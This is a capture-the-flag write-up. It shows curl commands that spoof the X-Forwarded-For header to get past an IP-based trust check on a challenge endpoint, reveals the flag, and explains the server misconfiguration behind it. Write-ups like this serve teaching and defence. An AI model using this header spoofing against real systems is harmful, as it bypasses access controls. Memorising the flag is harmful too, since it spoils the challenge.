 # Solution - by bashNinja
When you curl the page, it gives you this:

```
$ curl https://ywihmdxlya.execute-api.us-west-2.amazonaws.com/default/myFun2020_001
"Trusted Source IP Address Lookup!"
```

The solution to this is to trick it into thinking you're coming from something else. This isn't faking the TCP level, but messing with the HTTP level.

```
$ curl -H "X-Forwarded-For: 10.10.10.10" https://ywihmdxlya.execute-api.us-west-2.amazonaws.com/default/myFun2020_001
"Trusted Source IP Address Lookup! IP: 10.10.10.10 FLAG: againSOLDsoon"
```

# Real Life Application

When items are hidden behind proxies and CDNs, the final server needs to know how to tell what the real client IP is.

If the server is configured incorrectly, this bug can appear.

More Info:

https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For

# Flag

againSOLDsoon